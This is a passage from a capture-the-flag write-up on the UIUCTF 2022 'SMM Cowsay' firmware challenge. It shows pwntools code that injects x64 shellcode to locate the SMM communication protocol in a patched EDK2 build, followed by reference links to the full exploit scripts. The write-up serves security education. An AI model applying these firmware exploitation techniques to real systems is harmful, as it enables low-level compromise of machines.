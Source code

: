 ### Step 2: get ahold of mSmmCommunication to talk to SmmCowsay

In order to locate `mSmmCommunication` we need to pass a pointer to the protocol
GUID to `LocateProtocol`, and a pointer to the a location where the resulting
pointer should be stored. We already have a RWX area of memory available (the
one where our shellcode is written), so let's use that. We normally wouldn't,
but the patch `0005-PiSmmCpuDxeSmm-Open-up-all-the-page-table-access-res.patch`
to EDK2 sets all entries of the page table to RWX so we're good.

From disassembling any of the UEFI drivers, we can see that the calling
convention is [Microsoft x64][x64-call], so arguments in RCX, RDX, R8, R9, then
stack.

```python
# Taken from EDK2 source code (or opening Binexec.efi in a disassembler)
gEfiSmmCommunicationProtocolGuid = 0x32c3c5ac65db949d4cbd9dc6c68ed8e2

code = asm(f'''
    /* LocateProtocol(gEfiSmmCommunicationProtocolGuid, NULL, &protocol) */
    lea rcx, qword ptr [rip + guid]
    xor rdx, rdx
    lea r8, qword ptr [rip + protocol]
    mov rax, {LocateProtocol}
    call rax

    test rax, rax
    jnz fail

    mov rax, qword ptr [rip + protocol] /* mSmmCommunication */
    mov rbx, qword ptr [rax]            /* mSmmCommunication->Communicate */
    ret

fail:
    ud2

guid:
    .octa {gEfiSmmCommunicationProtocolGuid}
protocol:
''')
conn.sendline(code.hex().encode() + b'\ndone')

conn.recvuntil(b'RAX: 0x')
mSmmCommunication = int(conn.recvn(16), 16)
conn.recvuntil(b'RBX: 0x')
Communicate = int(conn.recvn(16), 16)

log.success('mSmmCommunication              @ 0x%x', mSmmCommunication)
log.success('mSmmCommunication->Communicate @ 0x%x', Communicate)
```

### Step 3: kindly ask SmmCowsay to print the flag for us


[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeups_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31